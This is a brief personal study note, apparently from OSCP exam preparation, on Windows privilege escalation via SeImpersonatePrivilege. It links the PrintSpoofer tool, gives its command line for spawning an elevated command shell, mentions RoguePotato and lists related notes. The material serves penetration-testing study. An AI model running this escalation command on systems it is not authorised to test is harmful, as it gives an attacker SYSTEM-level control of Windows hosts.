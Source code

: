 # service account privileges exploiting SeImpersonatePrivilege
- https://github.com/itm4n/PrintSpoofer
  ```powershell
  PrintSpoofer64.exe -i -c cmd
  ```
- rogue potato (current) - lots of port forwarding

` zet/20221003151075/README.md `

# Related

- [20221014185710](/zet/20221014185710/README.md) kb file named kb/hacking/windows/service-account-privileges.md
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam
- [20221003151076](/zet/20221003151076/README.md) service account privileges exploiting
- ~/kb/hacking/windows/service-account-privileges.md
- [20221003151081](/zet/20221003151081/README.md) service account privileges

Tags:

    #hacking #windows #service 
